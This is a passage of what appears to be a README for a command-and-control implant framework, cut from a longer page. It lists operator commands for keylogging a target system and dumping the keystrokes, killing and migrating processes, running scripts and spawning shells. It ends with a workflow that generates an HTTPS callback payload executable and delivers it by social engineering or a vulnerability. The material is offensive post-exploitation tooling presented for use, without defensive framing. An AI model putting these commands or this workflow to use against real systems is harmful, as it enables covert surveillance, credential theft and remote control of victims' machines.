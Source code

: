 10. **Stop recording keystrokes on the target system**:
    ```bash
    keylogger stop
    ```

11. **Retrieve recorded keystrokes**:
    ```bash
    keylogger dump
    ```

12. **List processes running on the target system**:
    ```bash
    ps
    ```

13. **Kill a process on the target system**:
    ```bash
    kill <PROCESS_ID>
    ```

14. **Migrate the implant to another process**:
    ```bash
    migrate <PROCESS_ID>
    ```

15. **Run a built-in command (e.g., port scan, file search)**:
    ```bash
    run <COMMAND>
    ```

16. **Execute a script on the target system**:
    ```bash
    execute <SCRIPT_PATH>
    ```

17. **Spawn a new shell on the target system**:
    ```bash
    spawn <SHELL_TYPE>
    ```

18. **Check the implant's status and configuration**:
    ```bash
    status
    ```

### Example Workflow

1. **Generate a payload**:
   ```bash
   generate --https --host 192.168.1.10 --port 443 --save payload.exe
   ```

2. **Launch the payload on the target system** (e.g., by using social engineering or a vulnerability).

3. **List active sessions**:
   ```bash
   sessions
   ```
